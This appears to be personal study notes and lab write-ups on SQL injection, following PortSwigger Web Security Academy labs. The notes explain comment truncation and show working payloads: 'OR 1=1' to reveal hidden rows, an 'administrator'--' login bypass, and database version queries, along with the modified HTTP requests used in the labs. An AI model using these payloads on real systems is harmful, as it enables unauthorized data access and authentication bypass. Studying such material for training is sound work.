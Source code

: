 # Overview

## Concepts

Definition by [portswigger.net](https://portswigger.net/web-security/sql-injection):

> SQL injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It generally allows an attacker to view data that they are not normally able to retrieve. This might include data belonging to other users, or any other data that the application itself is able to access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.
>
> In some situations, an attacker can escalate an SQL injection attack to compromise the underlying server or other back-end infrastructure, or perform a denial-of-service attack.

I find important to mark the difference between `UNION SQLi` and `Blind SQLi`:

- UNION attacks: you can retrieve data from different database tables
- Blind SQLi: the results of a query you control are not returned in the application's responses.

## Key points

In SQL the characters `--` start a comment.

```sql
--  https://insecure-website.com/products?category=Gifts'-- 
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1 
```

As you can see from the highlighted code, what follows the two dashes is interpreted as a comment.

## Retrieve hidden data

the simplest way to retrieve hidden data using a SQLi is to use `OR 1=1`. For example:

```sql
--  https://insecure-website.com/products?category=Gifts'+OR+1=1-- 
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

The query right above select the products where category is equal to 'Gifts' or where 1=1. Since 1 is always equal to 1, we get all the products, even if they weren't released (released = 0).

## Subvert application logic

We can use a SQLi injection to "subvert" application logic, i.e. the change how the app. behaves. For example, we can bypass the login:

```sql
-- turn this
SELECT * FROM users WHERE username = 'admin' AND password = 'strongpassword'

-- into this
SELECT * FROM users WHERE username = 'admin'--' AND password = 'strongpassword'
```

### Examining the database

Since there exist different types of database, you can specific commands the get determine what database you're trying to attack.

Database type | Query
--------------|------
Microsoft, MySQL | SELECT | @@version
Oracle | SELECT * FROM v$version
PostgreSQL | SELECT version()

## Labs

### Retrieving hidden data

> SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

What I had to do was to turn the following request:

```http
GET /filter?category=Gifts HTTP/1.1
# output omitted for brevity
```

Into this one:

```http
GET /filter?category=Gifts'+OR+1=1 HTTP/1.1
# output omitted for brevity
```

Note the difference:

```diff
< GET /filter?category=Gifts
---
> GET /filter?category=Gifts'+OR+1=1 HTTP/1.1
```

### Subvert application logic

> SQL injection vulnerability allowing login bypass

Original request:

```http
POST /login HTTP/1.1
Host: ace31f011ec49bad806a1d3d00f300f2.web-security-academy.net
# output omitted for brevity

csrf=cHkQYSTk6VN6hFL8tiBJpOuS1KSOfTrG&username=administrator&password=password
```

To bypass the login function, I had to turn it into this:

```http
POST /login HTTP/1.1
Host: ace31f011ec49bad806a1d3d00f300f2.web-security-academy.net
# output omitted for brevity

csrf=cHkQYSTk6VN6hFL8tiBJpOuS1KSOfTrG&username=administrator'--&password=password
```

Note the difference:

```diff
< csrf=cHkQYSTk6VN6hFL8tiBJpOuS1KSOfTrG&username=administrator&password=password
---
> csrf=cHkQYSTk6VN6hFL8tiBJpOuS1KSOfTrG&username=administrator'--&password=password
```

## Sources

[1]: [What is SQL Injection? Tutorial & Examples | Web Security Academy](https://portswigger.net/web-security/sql-injection)

